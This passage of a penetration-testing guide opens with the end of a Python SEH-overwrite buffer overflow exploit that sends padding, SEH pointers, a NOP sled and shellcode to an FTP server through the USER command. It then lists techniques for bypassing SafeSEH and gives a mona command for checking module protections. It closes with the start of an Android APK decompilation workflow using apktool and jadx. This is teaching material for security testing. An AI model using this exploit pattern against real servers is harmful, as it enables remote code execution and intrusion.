 ```python
)

# Build payload
payload = b"A" * offset_to_nseh
payload += nseh
payload += seh
payload += nops
payload += shellcode

# Send to FTP server
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))
s.recv(1024)
s.send(b'USER ' + payload + b'\r\n')
s.close()
```

### Bypassing SafeSEH

**Techniques:**
1. Use modules without SafeSEH protection
2. Use ROP (Return-Oriented Programming)
3. Target older systems without SafeSEH
4. Use executable memory pages from non-SafeSEH modules

```python
# Check module protections with mona
!mona modules

# Look for:
# SafeSEH: False
# ASLR: False
# DEP: False
```

---

## Mobile Device Penetration Testing

### Android Application Security

#### APK Analysis Workflow

**Step 1: Decompile APK**
```bash
# Install apktool
apt-get install apktool

# Decompile APK
apktool d application.apk -o output_dir

# Directory structure:
# output_dir/
# ├── AndroidManifest.xml
# ├── smali/              (Dalvik bytecode)
# ├── res/                (Resources)
# └── assets/

# Convert to Java (using jadx)
jadx application.apk -d java_output
```
